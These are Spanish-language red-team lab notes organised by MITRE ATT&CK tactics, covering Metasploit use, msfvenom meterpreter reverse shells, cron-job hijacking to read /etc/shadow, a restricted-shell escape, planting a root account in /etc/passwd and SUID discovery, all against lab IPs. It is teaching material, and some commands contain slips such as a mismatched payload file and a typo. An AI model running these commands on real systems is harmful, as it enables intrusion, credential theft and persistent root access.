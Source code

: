 # Laboratorio 12-13. Técnicas de Red Team a través del MITRE ATT&CK (Parte 2)

## Bloque 1: MITRE ATT&CK fase 4. TA0002. Execution (continuación) 

### Ejercicio L12B1_METERPRETER: Meterpreter para explotación (T1569. System Services)
Podemos ver los workspaces de metasploit, crearlos y borrarlos.
```sh
workspace
workspace -a <nombre>
workspace -d <nombre>
workspace <nombre del workspace>
```

Podemos ejecutar nmap desde metasploit.
```sh
db_nmap -sV <IP>
```

Podemos buscar exploits en la base de datos de Metasploit.
```sh
search <PALABRAS CLAVE>
```

Para usar un exploit
```sh
use <exploit> - set payload <payload> - show options - set options <…> - exploit
```

Podemos ver la lista de payloads
```sh
show payloads
```

Podemos obtener información de un exploit
```sh
info <nombre completo del exploit>
```

### Payloads con msfvenom y multi/handler
Creamos un payload
```sh
msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.12.2 LPORT=4444 -f raw > shell.php
```

Lo transferimos a la víctima
```sh
scp shell.php testUser@192.168.12.3:/var/www/html/
```

Ahora en la máquina atacante ponemos el multi/hander en escucha
```sh
msfconsole

use exploit/multi/handler
set payload php/meterpreter/reverse_tcp
set LHOST 192.168.12.2
set LPORT 4444
run
```

Ahora, cuando alguien acceda a la ruta donde se encuentra el exploit, obtendremos la sesión de meterpreter.
```sh
curl http://192.168.12.3/shell.php
```

## Bloque 2: MITRE ATT&CK fase 6: TA0004. Privilege scalation

### Escalada de privilegios a través de trabajos cron: Exfiltración de información privada (T1053. Scheduled Task/Job)
Podemos modificar archivos que ejecutan tareas cron para saltarnos diversas restricciones de seguridad. Si una tarea ejecuta un archivo python, podemos modificarlo para que nos muestre, por ejemplo, /etc/shadow

La información sobre las tareas programadas se encuentra en /etc/crontab. Los outputs de estas tareas est.an en /var/log/cron.log

```py
import os

shadow_file_path = '/etc/shadow'

if os.path.exists(shadow_file_path) and os.path.isfile(shadow_file_path):
    try:
        with open(shadow_file_path, 'r') as file:
            content = file.read()
            print(content)
    except PermissionError:
        print("Permiso denegado: Necesitas ser root para leer este archivo.")
else:
    print("/etc/shadow no existe o no es un archivo.")

```

### Escalada de privilegios mediante la sustitución de ejecutables / dependencias: Reverse shells de Msfvenom (T1053. Scheduled Task/Job)
Procedemos igual que antes
```sh
msfvenom -p python/meterpreter/reverse_tcp LHOST=192.168.12.2 LPORT=4444 -f raw > integrity_check.py
```

Lo transferimos a la víctima
```sh
scp shell.php testUser@192.168.12.3:/tmp/integrity_check.py
```

Ahora en la máquina atacante ponemos el multi/hander en escucha
```sh
msfconsole

use exploit/multi/handler
set payload php/meterpreter/reverse_tcp
set LHOST 192.168.12.2
set LPORT 4444
run
```

Y esperamos a que la tarea se ejecute, con lo que nos dará acceso al sistema.

## Bloque 3: MITRE ATT&CK fase 6: TA0004. Privilege scalation (continuación)

### Romper restricciones y ocultar actividades (T1548. Abuse Elevation Control Mechanism)
Si tenemos una consola restringida podemos saltarnos esta restricción con el comando sed
```sh
sed -n '1e exec sh 1>&0' /etc/hosts
```
Ejecutando esto obtendremos una consola si restricciones.

### Identificación de programas sudo (T1548. Abuse Elevation Control Mechanism)
Se puede comprobar la lista de programas que podemos ejecutar con sudo con
```sh
sudo -l
```

### Generar una contraseña válida para un usuario de Linux (T1078. Valid Accounts)
Podemos generar el hash de una contraseña con mkpasswd
```sh
mkpassw --method=SHA-256
```

Y introducir una entrada en /etc/passwd
```sh
hacker:$6$randomsalt$Xk3kf8NznO3AdU.dkjdfk...:0:0:root:/root:/bin/bash
```

Podemos loguearnos para comprobar que funciona
```sh
su - hacker
```

### Identificación de programas SUID (T1548. Abuse Elevation Control Mechanism)
Los archivos con los bits SETUID o SETGID activos nos permiten que un programa se ejecute temporalmente con los privileguos del propietario del archivo para realizar una tarea que los requiera.
```sh
find / -perm -u=s -type f 2>/dev/null
chmod +s                                    #Activa el bit
```

### Escalada de privilegios a través de programas SUID (T1548. Abuse Elevation Control Mechanism)

### Escalada de privilegios potencial a través de técnicas de inspección ejecutables (T1078. Valid Accounts)
Podemos inspeccionar archivos ejecutables para buscar posibles credenciales hardocdeadas
```sh
strings <RUTA_ARCHIVO>
```